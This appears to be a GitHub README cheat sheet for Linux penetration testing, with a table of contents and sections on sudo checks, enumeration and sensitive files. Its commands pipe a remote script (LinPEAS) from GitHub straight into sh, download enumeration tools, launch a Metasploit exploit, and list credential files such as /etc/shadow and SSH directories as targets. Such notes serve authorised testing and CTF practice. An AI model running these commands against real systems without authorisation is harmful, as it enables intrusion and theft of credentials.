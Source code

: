 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634286-1909c4f2-729b-46bd-960b-60368df75400.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172728126-5dc238f3-9491-415b-a5f6-bedbb62d01cd.svg#gh-light-mode-only">
</picture>

---

- [Command Injection](#command-injection)
- [Enumeration](#enumeration)
- [FTP](#ftp)
- [Gdbserver](#gdbserver)
- [Network](#network)
- [Port Forwarding](#port-forwarding)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

# Sudo
```bash
sudo -l
```

# Enumeration
## Script
### LinPeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Linux Smart Enumeration
```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

### Metasploit
```bash
msfconsole -q -x 'use exploit; set RHOSTS ip; set RPORT port; run; exit'
```

### Docker
```bash
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -O
```

## File
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`
- `/usr/local/bin`
- `/etc/nginx/sites-available/default`
- `/etc/apache2/sites-enabled/000-default.conf`
